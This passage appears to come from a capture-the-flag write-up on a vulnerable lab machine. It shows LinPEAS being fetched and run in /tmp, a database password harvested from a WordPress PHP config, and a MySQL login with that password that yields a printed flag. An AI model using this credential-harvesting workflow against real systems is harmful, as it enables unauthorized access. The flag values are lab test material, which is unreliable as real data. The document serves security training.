   - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}


      **Method Used**
      - With access to to micheals account [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) was downloaded to the /tmp/ direcotry for some automated enumeration for any security misconfigurations that may be of intrest.
      
```
michael@target1:/tmp$ git clone https://github.com/carlospolop/PEASS-ng.git
Cloning into 'PEASS-ng'...
remote: Enumerating objects: 7031, done.
remote: Counting objects: 100% (1799/1799), done.
remote: Compressing objects: 100% (592/592), done.
remote: Total 7031 (delta 1205), reused 1602 (delta 1136), pack-reused 5232
Receiving objects: 100% (7031/7031), 35.55 MiB | 13.88 MiB/s, done.
Resolving deltas: 100% (4118/4118), done.
Checking connectivity... done.
michael@target1:/tmp$ cd PEASS-ng/
michael@target1:/tmp/PEASS-ng$ cd linPEAS/
michael@target1:/tmp/PEASS-ng/linPEAS$ ./linpeas.sh 
```
- It discovered the credentials `root:R@v3nSecurity` to a database in a poorly protected php config file.
```bash
╔══════════╣ Searching passwords in config PHP files
define('DB_PASSWORD', 'R@v3nSecurity');                                                                                                    
define('DB_USER', 'root');
        define('DB_PASSWORD', $pwd);
        define('DB_USER', $uname);
        $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_USER', 'root');
define('DB_PASSWORD', 'password_here');
define('DB_USER', 'username_here');
```
- Using these creds we were able to access the mysql database
```
michael@target1:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 43
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
- flag3 was found in the wordpress database and in the wp_posts table
```
As a new WordPress user, you should go to <a href="http://192.168.206.131/wordpress/wp-admin/">your dashboard</a> to delete this page and create new pages for your content. Have fun! | Sample Page  |              | publish     | closed         | open        |               | sample-page   |         |        | 2018-08-12 22:49:12 | 2018-08-12 22:49:12 |                       |           0 | http://192.168.206.131/wordpress/?page_id=2                      |          0 | page      |                |             0 |
|  4 |           1 | 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2} 
```